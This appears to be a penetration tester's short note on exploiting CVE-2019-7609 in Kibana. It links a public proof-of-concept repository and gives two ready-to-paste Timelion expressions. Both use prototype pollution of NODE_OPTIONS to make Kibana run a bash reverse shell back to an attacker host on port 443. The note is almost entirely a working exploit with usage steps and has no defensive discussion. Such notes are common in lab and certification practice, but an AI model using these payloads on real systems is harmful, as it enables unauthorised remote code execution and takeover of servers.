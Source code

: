 https://github.com/mpgn/CVE-2019-7609

![[rlwrap]]

Left side menu > Timelion > Try one of the following 2 exploits:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/$KALI/443 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/$KALI/443 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

